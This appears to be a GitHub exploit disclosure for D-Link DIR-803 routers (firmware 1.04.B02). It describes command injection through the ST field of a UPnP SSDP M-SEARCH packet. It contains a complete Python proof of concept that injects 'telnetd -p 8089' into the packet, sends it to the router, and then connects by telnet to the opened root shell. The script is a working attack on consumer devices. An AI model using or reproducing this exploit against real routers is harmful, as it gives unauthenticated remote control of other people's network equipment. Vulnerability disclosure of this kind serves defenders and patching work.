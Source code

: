 # dir-803
Exploit Author: yangchunyuwhu@aliyun.com

Vendor: D-Link

Firmware: DIR-803_REVA_FIRMWARE_1.04.B02.ZIP

An issue was discovered on D-Link DIR-803 devices. Universal Plug and Play (UPnP) is enabled by default on port 1900. allowing an attacker to inject arbitrary command to the UPnP via a crafted M-SEARCH packet.An attacker can perform command injection by injecting a payload into the "Search Target" (ST) field of an SSDP M-SEARCH discovery packet.

# poc
from socket import *

from os import *

from time import *
 
payload = b'M-SEARCH * HTTP/1.1\r\n'

payload += b'HOST:localhost:1900\r\n'

payload += b'ST:urn:device:;telnetd -p 8089\r\n\r\n'
 
s = socket(AF_INET, SOCK_DGRAM, 0)

s.sendto(payload, ("192.168.0.1", 1900))

s.close()
 
sleep(1)
system("telnet 192.168.0.1 8089")
